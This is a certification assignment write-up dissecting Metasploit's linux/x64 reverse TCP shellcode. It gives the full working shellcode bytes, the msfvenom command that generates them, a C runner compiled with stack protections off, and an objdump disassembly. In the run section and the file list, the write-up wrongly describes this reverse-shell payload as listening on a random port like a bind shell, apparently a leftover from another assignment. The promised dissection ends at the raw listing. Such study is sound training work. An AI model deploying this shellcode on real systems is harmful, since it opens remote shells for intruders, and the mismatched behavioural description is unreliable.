 ## Assignment #5.3: Shellcode `linux/x64/shell_reverse_tcp` Dissection
---
---
### Introduction
---
The `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_reverse_tcp` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_reverse_tcp --list-options
Options for payload/linux/x64/shell_reverse_tcp:
=========================

       Name: Linux Command Shell, Reverse TCP Inline
     Module: payload/linux/x64/shell_reverse_tcp
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 74
       Rank: Normal

Provided by:
    ricky

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST                   yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Description:
  Connect back to attacker and spawn a command shell
```

The payload is only 74 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `LHOST`: The target to connect back

> NOTE: In the captures of `gdb`, comments are especified with the `<==` symbol. This is added when want to comment what's going on in the debugger. The symbol `==` means that the comment is a continuation from previous line comment.

### Creating the Shellcode
---
Let's generate the shellcode. Let's leave the default port "4444" and let's set LHOST to "127.0.0.1" (loopback address). Let's generate the payload shellcode:
```c
SLAE64> msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of c file: 335 bytes
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamed to `Payload_03.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_03.c -o Payload_03
```
When it's run, is listens for incoming connections in a random port. From another terminal using `netstat` check what's the listening port, and with `netcat`, can connect. A shell is spawned:

<img src="https://galminyana.github.io/img/A053_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_03
**_REMOVED_**
0000000000004060 <code>:
    4060:       6a 29                   push   0x29
    4062:       58                      pop    rax
    4063:       99                      cdq
    4064:       6a 02                   push   0x2
    4066:       5f                      pop    rdi
    4067:       6a 01                   push   0x1
    4069:       5e                      pop    rsi
    406a:       0f 05                   syscall
    406c:       48 97                   xchg   rdi,rax
    406e:       48 b9 02 00 11 5c 7f    movabs rcx,0x100007f5c110002
    4075:       00 00 01 
    4078:       51                      push   rcx
    4079:       48 89 e6                mov    rsi,rsp
    407c:       6a 10                   push   0x10
    407e:       5a                      pop    rdx
    407f:       6a 2a                   push   0x2a
    4081:       58                      pop    rax
    4082:       0f 05                   syscall
    4084:       6a 03                   push   0x3
    4086:       5e                      pop    rsi
    4087:       48 ff ce                dec    rsi
    408a:       6a 21                   push   0x21
    408c:       58                      pop    rax
    408d:       0f 05                   syscall 
    408f:       75 f6                   jne    4087 <code+0x27>
    4091:       6a 3b                   push   0x3b
    4093:       58                      pop    rax
    4094:       99                      cdq    
    4095:       48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
    409c:       73 68 00 
    409f:       53                      push   rbx
    40a0:       48 89 e7                mov    rdi,rsp
    40a3:       52                      push   rdx
    40a4:       57                      push   rdi
    40a5:       48 89 e6                mov    rsi,rsp
    40a8:       0f 05                   syscall
        ...
**_REMOVED_**
SLAE64> 
```

















### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_03.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_03.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/shell_bind_tcp_random_port` shellcode.
- [Shellcode_03.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_03.txt) : The rax shellcode in hex into a text file.

### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
